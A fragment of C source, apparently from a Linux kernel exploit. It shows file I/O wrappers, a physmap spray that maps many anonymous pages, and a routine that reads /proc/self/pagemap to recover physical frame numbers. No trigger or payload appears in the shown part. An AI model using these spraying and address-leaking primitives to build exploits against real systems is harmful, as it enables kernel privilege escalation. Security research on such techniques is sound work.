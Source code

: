 ```c
	unsigned char blank;
	unsigned long vec[127];
	unsigned char leftover[7];
}  __attribute__((packed));

int Open(const char *fname, int mode) {
	int fd = open(fname, mode);
	if (fd < 0) {
		perror("open");
		exit(-1);
	}
	return fd;
}

size_t Read(int fd, void *buf, size_t nbytes) {
	size_t nb = read(fd, buf, nbytes);
	if (nb != nbytes) {
		perror("read");
		exit(-1);
	}
	return nb;
}

size_t Write(int fd, void *buf, size_t nbytes) {
	size_t nb = write(fd, buf, nbytes);
	if (nb != nbytes) {
		perror("write");
		exit(-1);
	}
	return nb;
}

void physmap_spray() {
	int i;
	void *mp;
	for (i = 0; i < SPRAY_CNT; i++)
	{
        if ((mp = mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_POPULATE, -1, 0 )) == MAP_FAILED) {
        	perror("mmap");
        	exit(-1);
        }
		sprayed_pages[i] = mp;
	}	
}

unsigned long get_pfn(void *pg) {
	unsigned long pginfo;
	int fd = Open("/proc/self/pagemap", O_RDWR);
	if (lseek(fd, ((off_t)pg >> 12) * sizeof(pginfo), SEEK_SET) < 0) {
		perror("lseek");
		exit(-1);
	}

	if (read(fd, &pginfo, sizeof(pginfo)) < 0) {
		perror("read");
		exit(-1);
	}
	close(fd);
	unsigned long pfn = pginfo & 0x7fffffffffffff;
	return pfn;
}

```